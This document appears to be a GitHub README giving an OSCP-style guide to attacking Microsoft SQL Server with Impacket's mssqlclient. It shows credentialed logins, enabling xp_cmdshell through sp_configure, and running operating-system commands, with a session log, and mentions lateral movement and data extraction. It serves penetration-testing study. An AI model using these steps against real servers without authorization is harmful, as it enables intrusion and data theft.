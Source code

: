 #  Penetration Testing with Impacket MSSQLClient "OSCP Guide"

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance:

```bash
impacket-mssqlclient <username>:<password>@<hostname> -windows-auth
```

Example:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.212.18 -windows-auth
```

```plaintext
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)> dir
ERROR: Line 1: Could not find stored procedure 'dir'.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL                          
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```

## Enabling Advanced Options

Before you can use certain advanced features like `xp_cmdshell`, you need to enable advanced options on the SQL Server.

### Step-by-Step Guide

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, you can execute system commands directly from the SQL Server.

### Example Commands

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

- **List directory contents**:
    ```sql
    EXEC xp_cmdshell 'dir';
    ```

- **Create a new directory**:
    ```sql
    EXEC xp_cmdshell 'mkdir C:\path\to\new_directory';
    ```

## Advanced Usage

Here are some advanced scenarios and techniques for using `mssqlclient`:

- **Uploading and Executing Scripts**:
    You can upload and execute scripts or binaries using `xp_cmdshell`.

- **Pivoting and Lateral Movement**:
    Use `mssqlclient` in combination with other tools to pivot and move laterally within the network.

- **Extracting Data**:
    Use SQL queries to extract sensitive data from the database.

## Security Considerations

Using tools like `mssqlclient` comes with significant security risks. Here are some considerations:

- Ensure you have proper authorization before performing penetration tests.
- Be aware of the potential impact of your actions on the target systems.
- Follow responsible disclosure practices if you discover vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)


## Refrence 

Offsec 
```

You can copy and paste this markdown content directly into your `README.md` file on GitHub.
